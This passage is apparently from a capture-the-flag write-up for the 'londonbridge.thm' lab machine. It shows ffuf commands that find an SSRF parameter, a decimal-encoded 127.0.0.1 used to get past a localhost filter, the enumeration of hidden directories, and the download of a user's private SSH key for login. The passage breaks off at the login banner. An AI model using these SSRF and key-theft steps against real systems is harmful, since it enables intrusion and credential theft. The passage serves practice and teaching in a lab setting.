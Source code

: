 ```Check for other parameters that may been left over during the development phase. If one list doesn't work, try another common one.```

I believe this is in reference to `/view_image` as it is technically the dev environment and it is supplied with POST data. 

Let's fuzz via `ffuf` and see where that gets us.

```
ffuf -u 'http://londonbridge.thm:8080/view_image' -X POST --data "FUZZ=/uploads/bedtime_at_11.jpg" -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fs 823
```

Thankfully, I got my results very quickly.
```
:: Progress: [207/87664] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: 
www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 116ms]
```

A few minutes of playing around with it shows that it does what I hoped `image_url` would do. That is, it connects to external URLs.

![](./images/img7.png)

attempting to connect to `localhost` or `127.0.0.1` returns `403 forbidden`. This is most likely a filtered address. we can bypass this through many means but I chose to encode `127.0.0.1` to decimal:
`http://2130706433/`

![](./images/img8.png)

Some enumerating showed the following:
+ there is a website hosted at port 80 running off Django
+ subdirectories include `/template`, `/uploads` `/static` 
+ `/template` is the gallery with some django syntax to present  all uploads via a for loop
+ `/uploads` is shared between the internal website and the external website.

Now the wordlist I've been using is meant for web directories. But, that doesn't mean I can't use it to enumerate hidden directories. We can do this by simply appending a punctuation mark before the FUZZ keyword.

```
ffuf -u 'http://londonbridge.thm:8080/view_image' -X POST --data "www=http://2130706433/.FUZZ" -H 'Content-Type: application/x-www-form-urlencoded' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 469
```

We find some interesting directories:
```
...
cache                   [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 109ms]
ssh                     [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 123ms]
gnupg                   [Status: 200, Size: 372, Words: 17, Lines: 16, Duration: 123ms]
...
```

`/.ssh` has an `id_rsa` key and `authorized_key` suggests it belongs to a certain beth. Let's download this key and try logging into SSH as beth.

```
$ ssh beth@londonbridge.thm -i id_rsa
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)
